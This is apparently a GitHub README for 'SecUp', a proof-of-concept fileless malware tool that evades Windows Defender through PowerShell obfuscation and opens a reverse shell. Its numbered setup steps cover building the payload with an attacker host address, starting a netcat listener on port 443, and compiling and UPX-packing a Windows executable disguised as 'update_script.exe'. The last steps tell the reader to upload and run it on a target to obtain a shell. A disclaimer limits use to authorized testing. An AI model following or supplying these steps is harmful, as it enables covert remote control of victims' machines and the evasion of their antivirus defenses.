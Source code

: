 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup is simple.<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build `SecUp.go`<br>
`go build SecUp.go`
3. From terminal, run: ./SecUp <LHOST><br>
`kali@kali:~/update_script$ ./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Compile EXE<br>
`GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
`upx -9 update_script.exe`
6. Back at the SecUp terminal<br>
`Press ENTER to continue...`
7. Upload and execute `update_script.exe` to target any way you like<br>
8. Shellz! :)
<P></P>
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>



https://user-images.githubusercontent.com/19762230/132001237-04ae01ae-102e-4070-9599-ad05128c3f73.mp4



